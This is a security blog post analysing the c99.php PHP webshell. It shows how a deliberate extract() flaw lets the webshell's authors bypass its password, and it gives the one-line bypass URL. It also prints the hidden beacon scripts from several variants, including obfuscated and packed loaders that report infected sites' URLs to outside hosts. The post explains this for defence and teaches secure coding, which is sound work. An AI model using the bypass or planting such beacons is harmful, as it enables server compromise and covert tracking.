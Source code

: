 ```yaml
---
layout: post
title: "c99.php : A backdoor backdoored"
lang: en
categories:
  - security
tags:
  - security
  - backdoor
  - webshell
  - php
date: 2016/04/19
thumbnail: /images/security-265130_640.jpg
---
```

C99 is a PHP webshell. Attackers uploads it on web server in order to get informations and above all execute commands with web user privileges (ex: www-data).

This webshell is protected by a customizable password, so interface access is limited to people who know the password.

But the password verification mechanism is vulnerable ... in fact the flaw was deliberately inserted into the code to permit the webshell author to bypass it.

## Code

```php
[...]

//Authentication
$login = ""; //login
//DON'T FORGOT ABOUT PASSWORD!!!
$pass = ""; //password
$md5_pass = ""; //md5-cryped pass. if null, md5($pass)

[...]

@$f = $_REQUEST["f"];
@extract($_REQUEST["c999shcook"]);

//END CONFIGURATION


// \/Next code isn't for editing\/
@set_time_limit(0);
$tmp = array();
foreach($host_allow as $k=>$v) {$tmp[] = str_replace("\\*",".*",preg_quote($v));}
$s = "!^(".implode("|",$tmp).")$!i";
if (!preg_match($s,getenv("REMOTE_ADDR")) and !preg_match($s,gethostbyaddr(getenv("REMOTE_ADDR")))) {exit("<a href=\"http://ccteam.ru/releases/cc999shell\">c999shell</a>: Access Denied - your host (".getenv("REMOTE_ADDR").") not allow");}
if (!empty($login))
{
 if (empty($md5_pass)) {$md5_pass = md5($pass);}
 if (($_SERVER["PHP_AUTH_USER"] != $login) or (md5($_SERVER["PHP_AUTH_PW"]) != $md5_pass))
 {
  if (empty($login_txt)) {$login_txt = strip_tags(ereg_replace("&nbsp;|<br>"," ",$donated_html));}
  header("WWW-Authenticate: Basic realm=\"c999shell ".$shver.": ".$login_txt."\"");
  header("HTTP/1.0 401 Unauthorized");
  exit($accessdeniedmess);
 }
}

[...]
```

## Vulnerability

Username and password are hardcoded to be easily editable.
```php
//Authentication
$login = ""; //login
//DON'T FORGOT ABOUT PASSWORD!!!
$pass = ""; //password
$md5_pass = ""; //md5-cryped pass. if null, md5($pass)
```

Next, login and password are checked by the following code:
```php
if (($_SERVER["PHP_AUTH_USER"] != $login) or (md5($_SERVER["PHP_AUTH_PW"]) != $md5_pass))
```

If login and password are not correct, an error page indicate that access is forbidden.

But checking is processed only if login is not empty: `if (!empty($login))`.

`$login` is normally initialized staticly at the begining but after that the variable can be modified by `extract()` function :
```php
@extract($_REQUEST["c999shcook"]);
```

## extract() function

PHP documentation say :

>extract
>
>(PHP 4, PHP 5, PHP 7)
>
>extract — Import variables into the current symbol table from an array
>Description
>Import variables from an array into the current symbol table.
>
>Checks each key to see whether it has a valid variable name. It also checks for collisions with existing variables in the symbol table.

```php 
int extract ( array &$array [, int $flags = EXTR_OVERWRITE [, string $prefix = NULL ]] )
```

`extract()` is mostly used to initialize variables from an array.

For example:
```php

<?php

$var_array = array("color" => "blue",
                   "size"  => "medium",
                   "shape" => "sphere");
extract($var_array);

echo "$color, $size, $shape\n";

?>
```
will output:
```php
blue, medium, sphere
```

So for each line of the array, the key becomes the variable name and the value is given to the variable.

This function is dangerous because of it default behaviour : if a key of the extracted array match with an existant variable, the variable value will be replaced by the value of the array given in paramteter to extract().

{% alert info %}
To develop a secure software, never use extract() with unknown data or user's data (ex: prompt).

There are flags (ex: EXTR_SKIP) to protect already existing variable.
{% endalert %}

## Exploit

Bypass authentification is very simple : overwrite `$login` variable.
```php
http://url.com/c99.php?c999shcook[login]=0
```

It's possible because of:
```php
@extract($_REQUEST["c999shcook"]);
```

## Why a backdoor?

Pirates infect websites with webshells, but because this webshell is backdoored other pirates (authors of the webshell) will be able to control the server too.

`extract()` function and `c999shcook` array are useless for the webshell but allow to overwrite any variables in the PHP script.

## There is another flaw

{% alert warning %}
There is a lot of c99.php variant: c99, c999, c99shell, c99unlimited, ... so some differences may occure.

There is multiple version of each variant and each variant can be declined in multiple forms: php, txt, jpg, ...
{% endalert %}

The simplest versions of c99 include a clear script:
```html
<script src=http://www.r57.gen.tr/yazciz/ciz.js></script>
```

Others like c99-bd try to poorly obfuscate it:
```html
<SCRIPT SRC=&#x68&#fthfthfjgyk&#x2f&#x2f&#x77&#x77&#x77&#x2e&#x70&#x72&#x69&#x76&#x63&#x30&#x64&#x65&#x2e&#x63&#x6f&#x6d&#x2f&#x69&#x6d&#x61&#x67&#x65&#x73&#x2f&#x79&#x61&#x7a&#x2e&#x6a&#x73></SCRIPT>
```
But a simple HTML decoder will decode `http://www.privc0de.com/images/yaz.js`.

Others like c100, r57, c999 or updated c99 version have more sophisticated method like packing the script:
```javascript
<script type="text/javascript">
if(typeof btoa=="undefined")btoa=function(a,b){b=(typeof b=='undefined')?false:b;var d,o2,o3,bits,h1,h2,h3,h4,e=[],pad='',c,plain,coded;var f="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";plain=b?Utf8.encode(a):a;c=plain.length%3;if(c>0){while(c++<3){pad+='=';plain+='\0'}}for(c=0;c<plain.length;c+=3){d=plain.charCodeAt(c);o2=plain.charCodeAt(c+1);o3=plain.charCodeAt(c+2);bits=d<<16|o2<<8|o3;h1=bits>>18&0x3f;h2=bits>>12&0x3f;h3=bits>>6&0x3f;h4=bits&0x3f;e[c/3]=f.charAt(h1)+f.charAt(h2)+f.charAt(h3)+f.charAt(h4)}coded=e.join('');coded=coded.slice(0,coded.length-pad.length)+pad;return coded};if(typeof atob=="undefined")atob=function(a,b){b=(typeof b=='undefined')?false:b;var e,o2,o3,h1,h2,h3,h4,bits,d=[],plain,coded;var f="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";coded=b?Utf8.decode(a):a;for(var c=0;c<coded.length;c+=4){h1=f.indexOf(coded.charAt(c));h2=f.indexOf(coded.charAt(c+1));h3=f.indexOf(coded.charAt(c+2));h4=f.indexOf(coded.charAt(c+3));bits=h1<<18|h2<<12|h3<<6|h4;e=bits>>>16&0xff;o2=bits>>>8&0xff;o3=bits&0xff;d[c/4]=String.fromCharCode(e,o2,o3);if(h4==0x40)d[c/4]=String.fromCharCode(e,o2);if(h3==0x40)d[c/4]=String.fromCharCode(e)}plain=d.join('');return b?Utf8.decode(plain):plain};
setTimeout(function(){new Function(atob(atob(document.getElementById('ghdescon').src.substr(22)).match(/ghdescon(.*?)ghdescon/)[1])).apply(this);kk(1);}, 500);
</script>
```
and unpack code can be a lot more complex than only base64_decode it or hex_to_ascii it.

The goal is always the same : each time the page is displayed, the website hosting the webshell will do a request to the malicious address and send the URL where it comes from, permiting to the malicious author to know all the website hosting the backdoored webshell.

The malicious script from `http://www.r57.gen.tr/yazciz/ciz.js` looks like this:
```javascript
a=new/**/Image();a.src='http://www.r57.gen.tr/r00t/yaz.php?a='+escape(location.href);
```

Script kiddies, lamers, and inattentive pirates will use webshells without looking carefully at the code.
The combo *flaw* + *inventory of infected website* is an easy way, for webshells' authors, to control a network of server (ex: creating a botnet) by letting to others the system corruption task.

More sophisticated piracy tools have some vulnerabilities too. Malwares like Smoke Loader (SQL injection), CrimePack (SQL injection) or Zeus (remote access via upload) have been corrupted.

## Warning

When using tools, be carefull, backdoors may be hidden. Pay attention to images, scripts, css, external request, mail functions, encoded code, ...



Source: *[C99.php : Quand même les backdoors sont backdoorées](https://www.lexsi.com/securityhub/c99-php-meme-les-backdoors-backdoorees/)* by **Hugo Ballesteros**
